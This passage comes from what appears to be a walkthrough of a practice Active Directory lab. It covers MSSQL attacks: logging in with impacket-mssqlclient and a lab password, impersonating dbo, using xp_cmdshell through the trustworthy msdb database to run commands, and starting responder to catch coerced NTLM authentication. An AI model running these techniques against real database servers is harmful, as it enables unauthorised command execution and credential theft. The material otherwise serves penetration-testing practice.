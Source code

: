 ### impersonate - execute as user

- We launch a connection to the db as arya.stark :
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
```

- if we use master db and impersonate user dbo we can’t get a shell
```
use master
execute as user = "dbo"
exec master..xp_cmdshell 'whoami'
```

```
exec_as_user dbo
xp_cmdshell whoami
```
![screenshot](pics/mssql_user_xpshell.png)


- but our user also got impersonate user privilege on dbo user on database msdb
![screenshot](pics/mssql_user_enum_impersonate.png)

- The difference between the two databases is that msdb got the trustworthy property set (default value on msdb).

- With the trustworthy property we get a shell :
![screenshot](pics/mssql_enum_db.png)

### Coerce and relay

- Mssql can also be use to coerce an NTLM authentication from the mssql server. The incoming connection will be from the user who run the mssql server.
- In our case if we tale any user like hodor for example we can get an NTLM authentication
- start responder `responder -I vboxnet0`
    